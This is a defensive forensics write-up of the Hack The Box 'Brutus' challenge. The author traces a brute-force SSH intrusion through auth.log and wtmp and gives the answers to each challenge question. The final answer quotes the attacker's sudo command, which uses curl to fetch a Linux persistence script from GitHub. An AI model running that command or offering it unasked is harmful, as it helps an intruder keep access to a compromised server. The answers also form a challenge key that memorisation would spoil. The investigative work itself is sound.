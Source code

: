 ```yaml
---
layout: post
title: "Brutus"
author: "Nicholas Coleman"
date: 2025-03-24
tags: hackthebox
---
```

**Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?**

In order to find the attacking IP address, the first thing to do would be to look for any signs of a brute force attack in the log file. 

I navigated to the directory containing the auth.log file, and did a grep search for any "Failed password" errors. 

![failed password](/security.github.io/images/Brutus/failedpassword.png)

Bingo! `65.2.161.68` is the IP address used by the brute force attacker. The amount of attempts is solid proof of a brute-force attack itself.

**The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?**

Doing another grep to look for any signs of a successful attempt is the easiest thing to do here. Luckily, I was able to do so.

![accepted password](/security.github.io/images/Brutus/acceptedpassword.png)

The first time that `65.2.161.68` was able to succesfully login to the server was at `06:31:40`, when they logged in as the `root` user.

**Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.**

The first thing to do is look at the wtmp log using the utmpdump tool.

![utmpdump](/security.github.io/images/Brutus/utmpdump.png)

`2024-03-06T06:32:45` is the timestamp when the attacking IP address first logs in manually.

**SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?**

![grep_root](/security.github.io/images/Brutus/grep_root.png)

From doing a grep search on the root user, I was able to see the first time that the password attempt was successful for the attacker was at `06:32:44`.

The message: `systemd-logind[411]: New session 37 of user root.` indicates that the ssh login session for the attacker is 37.

**The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?**

cyberjunkie.

**What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?**

Looking at the Enterprise Matrix and then navigating to the Persistence tab, I was able to see the "Create Account" sub-technique.

![create_account](/security.github.io/images/Brutus/create_account.png)

The sub-ID for creating a new local account was `T1136.001`.

**What time did the attacker's first SSH session end according to auth.log?**

Since we know that ssh session 37 belongs to the attacker, I did a grep search on session 37 and found out the session ended at `06:37:24`. 

![session_end](/security.github.io/images/Brutus/session37_end.png)

**The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?**

![last_command](/security.github.io/images/Brutus/last_command.png)

`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` is the full command.
